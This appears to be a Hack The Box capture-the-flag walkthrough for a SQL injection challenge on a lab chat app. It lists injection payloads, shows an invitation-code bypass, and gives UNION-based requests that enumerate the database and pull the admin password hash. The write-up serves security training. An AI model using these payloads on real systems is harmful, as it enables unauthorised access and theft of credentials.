






# CTF - Hack The Box - Module 33 Section 518 - First Challenge
## Challenge: What is the password hash for the user `admin`?
What should we do? At first, we should check every input field in the web app to find SQLi, then use it to retrieve the admin password.

## First Step
- Find pages and their input fields:
  - We have two pages:
    - **Login page**
    - **Create Account**

<p align="center">
    
</p>

We have two input boxes and will test our injections on them.

<hr>

<p align="center">
    
</p>

We have four input boxes and will test our injections on them.

<hr>

## Second Step
- Prepare tools and payloads:
  - Run Burp
  - Write useful and different payloads for injection

| Payload | Definition |
| --- | --- |
| `' OR '1'='1` | Basic string-based SQLi |
| `" OR "1"="1` | Double-quote variant |
| `' OR 1=1 -- -` | No quotes + comment (numeric/boolean test) |
| `" OR 1=1 -- -` | Double-quote no-quotes variant |
| `') OR '1'='1` | Close paren + string injection |
| `") OR "1"="1` | Close paren double-quote |
| `' "` | Mixed quotes / edge case (tests escaping) |
| `\' OR \'1\'=\'1` | Escaped single quotes (for forms that escape differently) |

<hr>

### Start testing to find the vulnerable page and input box
<p align="center">
    
</p>

**First, we checked the login page. I used `'` and `"` to see whether the boxes are vulnerable. I tested payloads on the login page but nothing happened, so I moved on to the second page. If you focus on the responses, you'll see our request is redirected to `login.php`. From that we understood that all inputs on this page are sanitized and there are no visible errors.**

<hr>

<p align="center">
    
</p>

**While testing inputs on the "Create Account" page, I found the path `/api/checkUsername.php` at first and thought it might be vulnerable, but it was not. I kept testing until I found the `invitation code` field.**

<p align="center">
    
</p>

**Pay attention to the status code: we got a 500 when sending a single quote (`'`) at the end of the `invitation code` input. After testing several payloads I found this payload works: `') OR 1=1 -- -`. Because we don't have a valid invite code we could not normally create an account, but with this payload we were able to create one.**

<p align="center">
    
</p>

**I tested `') ORDER BY 1 -- -` (which worked), but when I tried `ORDER BY 2` I got a 500 status. This vulnerable field alone can't help us retrieve the admin password because there is no useful response body and it seems to rely on headers. Now that we can create an account, I'll log in with it.**

<hr>

<p align="center">
    
</p>

**After logging in with the new account, I found a vulnerability in the search box. With that we can retrieve the admin password. I tested `ORDER BY 5 -- -` and got an error, which indicates there are 4 columns. So let's enumerate the database name, then tables and columns:**

```GET /index.php?q=s')+UNION+SELECT+1,+2,+GROUP_CONCAT(SCHEMA_NAME),+4+FROM+information_schema.schemata+--+-&u=4```


**Using the above payload I got this result: ***"information_schema,chattr"*** .**

**Then I used the following payload to find tables in the `chattr` database:**

```GET /index.php?q=s')+UNION+SELECT+1,+2,+3,+GROUP_CONCAT(TABLE_NAME)+FROM+information_schema.tables+WHERE+table_schema='chattr'--+-&u=4```

**Result: ***"Users, InvitationCodes, Messages"***.**

**It's likely the admin password is in the Users table, so let's check its columns:**

```GET /index.php?q=s')+UNION+SELECT+1,+2,+group_concat(column_name),+4+FROM+information_schema.columns+WHERE+table_schema='chattr'+AND+table_name='Users'--+-&u=4```

**The result returned columns: ***"UserID, Username, Password, InvitationCode, AccountCreated"***.**

**Now let's fetch the password hash:**

```GET /index.php?q=s')+UNION+SELECT+1,+2,+group_concat(Password),+group_concat(Username)+FROM+Users+WHERE+Username='admin'--+-&u=4```

**The result of this payload will be our challenge answer.**
**Flag: go find it :)**
